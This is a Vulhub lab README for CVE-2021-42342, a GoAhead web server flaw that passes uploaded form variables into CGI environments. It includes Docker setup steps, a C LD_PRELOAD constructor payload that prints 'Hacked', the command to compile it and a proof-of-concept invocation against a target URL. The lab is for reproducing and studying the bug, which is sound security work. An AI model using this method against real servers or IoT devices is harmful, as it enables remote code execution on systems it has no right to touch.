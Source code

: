 # GoAhead Web Server Environment Variables Injection and 'LD_PRELOAD' Remote Code Execution (CVE-2021-42342)

[中文版本(Chinese version)](README.zh-cn.md)

An issue was discovered in GoAhead 4.x and 5.x before 5.1.5. In the file upload filter, user form variables can be passed to CGI scripts without being prefixed with the CGI prefix. This permits tunneling untrusted environment variables into vulnerable CGI scripts.

Attacker can use this feature to upload their shared object payload in the multipart form and hijack the `LD_PRELOAD` environment variable to execute arbitrary code.

This vulnerability is the patch bypass of the [CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562).

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## Vulnerable environment

Execute following commands to start a GoAhead 5.1.4:

```
docker compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

Then, we are using [this script](poc.py) to reproduce the vulnerability.

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

Hijack is successful:

![](1.png)
